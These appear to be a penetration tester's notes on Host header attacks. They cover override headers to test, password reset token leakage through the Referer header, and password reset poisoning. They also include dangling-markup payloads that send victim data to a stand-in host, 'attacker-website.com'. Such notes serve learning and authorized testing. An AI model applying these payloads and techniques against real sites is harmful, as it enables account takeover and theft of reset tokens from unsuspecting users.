 ## Headers to test
```
X-Forwarded-Host
X-Host
X-Forwarded-Server
X-HTTP-Host-Override
Forwarded
X-Forwarded-For
```

For these, try `localhost` or `127.0.0.1` ...

---

## Param miner extension "guest headers" in Burp

---

## Tips

- Duplicate Host headers
- Absolute url
- Duplicate and add line wrapping
- Inject host override headers (see Headers to test)

---

## Password reset token leak via referrer

- Reset password
- click on the link you received by e mail
- don't change the password, instead, click on any third party pages you can see on the webpage
- intercept the request with burp and check if you have the token inside.

---

## Password reset poisoning

- Modify Host header with your server. When the victim will click on the link, thanks to the evil host headers, the password reset token will be delivered to the attacker's server. Then, use the link you received.

- Try also the other headers, or the tips.

- Try adding `:<port_or_string>` at the end and see what kind of answer you have in your inbox. Is the `:` escaped ? Can you add `<` after that ? View source page for that. Do you have to escape with single or double quote ?

- Patch it using $_SERVER['SERVER_NAME'] rather thant $_SERVER['SERVER_HOST']

### Via dangling markup

```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

- Suppose also that the application does not filter or escape the > or " characters. An attacker can use the following syntax to break out of the quoted attribute value and the enclosing tag, and return to an HTML context: `">`

- In this situation, an attacker would naturally attempt to perform XSS. But suppose that a regular XSS attack is not possible, due to input filters, content security policy, or other obstacles. Here, it might still be possible to deliver a dangling markup injection attack using a payload like the following:
```
"><img src='//attacker-website.com?
'<href src="//attacker-website.com/?
```

- Try to find if you have to escape the context or not, and then include your < and the payload. View source page to check it.

- Here, when the victim will go on the inbox, it's will reflect it automatically, and you'll receive stuff on your server.

---




